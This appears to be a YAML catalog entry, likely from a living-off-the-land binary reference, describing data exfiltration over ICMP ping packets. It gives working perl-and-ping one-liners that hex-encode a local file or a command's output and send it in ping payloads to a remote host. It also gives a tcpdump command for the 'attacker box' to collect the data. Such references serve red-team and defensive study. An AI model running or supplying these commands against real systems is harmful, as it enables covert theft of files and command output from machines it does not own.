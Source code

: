 ```yaml
---
functions:
  data-exfiltration:
    - description: |
        Capture ICMP packets embedded in ping requests.
        Run `sudo timeout 10 tcpdump -i any -l -n -XX 'icmp' 2>/dev/null | grep '0x0060:'` on the attacker box to collect the data.             
        ⚠️ Increase the timeout flag based on the amount of data.                             
        ⚠️ Manual parsing or reconstruction is required.  

        Send local file content over ICMP using hex-encoded payloads.
      code: |
        perl -0777 -ne '$_=unpack("H*",$_); for($i=0;$i<length;
        $i+=16){print "ping -c1 -p ",substr($_,$i,16)," $RHOST\n"}' $LFILE | bash
    - description: Send command output over ICMP using hex-encoded payloads.
      code: |
        $CMD | perl -0777 -ne '$_=unpack("H*",$_); for($i=0;$i<length;
        $i+=16){print "ping -c1 -p ",substr($_,$i,16)," $RHOST\n"}' | bash
---
```

